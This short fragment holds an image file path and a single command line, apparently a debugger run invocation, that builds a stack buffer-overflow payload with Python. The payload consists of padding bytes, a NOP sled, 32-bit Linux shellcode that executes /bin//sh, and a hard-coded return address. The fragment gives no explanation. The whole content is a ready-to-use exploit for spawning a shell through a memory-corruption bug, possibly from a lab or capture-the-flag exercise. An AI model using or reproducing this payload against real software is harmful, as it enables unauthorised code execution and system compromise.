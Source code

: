 run $(python -c 'print "\x55" * (2064 - 191 - 28 - 4) + "\x90" * 191 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x30\xd7\xff\xff"')